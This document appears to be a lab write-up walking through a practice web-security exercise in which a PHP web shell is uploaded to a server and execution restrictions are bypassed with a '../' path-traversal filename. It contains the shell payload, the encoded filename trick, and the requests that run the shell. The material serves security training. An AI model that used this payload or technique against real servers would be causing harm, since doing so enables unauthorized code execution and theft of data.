









# Lab 3 — Web Shell Upload via Path Traversal

> [← Back to File Upload Vulnerabilities](../README.md)

---

## 🎯 Objective
The server blocks PHP execution inside the `/avatars/` directory. Use path traversal in the filename to upload the shell one level up where PHP execution is allowed.

---

## 🪜 Steps

### Step 1 — Login
Credentials: `wiener:peter`



---

### Step 2 — Upload a normal image to observe behaviour
Upload a `.jpg` file → response confirms: `avatars/.jpg uploaded`




---

### Step 3 — Upload PHP web shell
Upload `exploit.php` with payload:
```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```



---

### Step 4 — Try to execute — fails
Request:
```
GET /files/avatars/exploit.php
```
Server does not execute PHP in the `/avatars/` directory.



---

### Step 5 — Capture the upload request in Burp
Go to **Proxy → HTTP history** → find `POST /my-account/avatar`.



---

### Step 6 — Path traversal bypass in filename
In Burp Repeater, modify the filename parameter:
```
filename="../exploit.php"
```
URL-encoded:
```
filename="..%2fexploit.php"
```
This places the file **one directory above** `/avatars/` — in `/files/` — where PHP execution is permitted.



---

### Step 7 — Execute the payload
Request the file from its new location:
```
GET /files/avatars/../exploit.php
```
or simply:
```
GET /files/exploit.php
```
Server executes the PHP → Carlos's secret returned.



---

### Step 8 — Lab solved ✅
Submit the secret.




---

## ✅ Result
Lab solved!

---

## 💡 Key Takeaway
Always sanitize filenames server-side — strip or reject path traversal characters like `../` and their URL-encoded equivalents. Never rely on directory-level PHP restrictions alone to prevent code execution.
